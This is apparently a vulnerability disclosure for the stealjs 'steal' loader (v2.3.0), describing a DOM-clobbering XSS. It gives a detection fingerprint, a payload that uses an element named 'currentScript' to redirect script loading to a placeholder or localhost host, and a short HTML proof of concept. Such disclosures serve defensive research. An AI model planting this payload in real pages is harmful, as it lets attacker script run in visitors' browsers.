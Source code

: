 ## steal

### Meta

+ Library: steal
+ Stars: 1.4K
+ Version: v2.3.0
+ Fingerprint: `typeof window.steal !== 'undefined' && typeof window.steal.loader === 'object'`
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx"><img>```
+ Impact: XSS
+ CVE: N/A
+ Status: Mitre
+ Foundby: TheHulk


### Library

Built locally

https://github.com/stealjs/steal

### Vulnerable Code Snippet

too complicated.

## PoC

after running `npm install`

```html
<!--Library-->
<script src="./node_modules/steal/steal.js" main></script>
<!--Library-->

<!--Payload-->
<image name="currentScript" src="http://localhost:9999"></image>
<!--Payload-->
```
